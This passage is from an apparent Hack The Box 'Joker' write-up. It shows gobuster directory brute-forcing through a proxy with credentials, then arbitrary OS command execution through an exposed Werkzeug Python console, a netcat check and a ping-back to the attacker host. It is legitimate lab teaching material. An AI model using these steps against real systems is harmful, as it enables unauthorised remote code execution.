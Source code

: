 Let's use gobuster

```bash
$ sudo gobuster -w /opt/wordlists/directory-list-2.3-medium.txt -u http://127.0.0.1 -p http://kalamari:ihateseafood@10.10.10.21:3128 -t 50
/list (Status: 301)
/console (Status: 200)
```

Now let's check /console

![joker6](/images/htb-joker/joker6.png)

It's a interactive python2 console, i'm going to see some information about the OS

```python
>>> import os
>>> import sys
>>> sys.version
'2.7.12+ (default, Sep 17 2016, 12:08:02) \n[GCC 6.2.0 20160914]'
>>> os.getlogin()
'werkzeug'
```

And nc it's installed

```python
>>> os.popen("nc -h 2>&1").read()
'OpenBSD netcat (Debian patchlevel 1.105-7ubuntu1)\nThis is nc from the netcat-openbsd package.
```

So the way to continue is get a reverse shell, but first I'm going to ping me back

```python
>>> os.popen("ping -c 2 10.10.14.19 &").read()
```

The & at the end is for not hang the box is the process dies, I learned this from ippsec video, good thing to learn in a real life scenario to not crash a computer.

```bash
$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
11:22:41.798133 IP 10.10.10.21 > ubuntu: ICMP echo request, id 1567, seq 1, length 64
11:22:41.798149 IP ubuntu > 10.10.10.21: ICMP echo reply, id 1567, seq 1, length 64
11:22:42.810554 IP 10.10.10.21 > ubuntu: ICMP echo request, id 1567, seq 2, length 64
11:22:42.810563 IP ubuntu > 10.10.10.21: ICMP echo reply, id 1567, seq 2, length 64
```
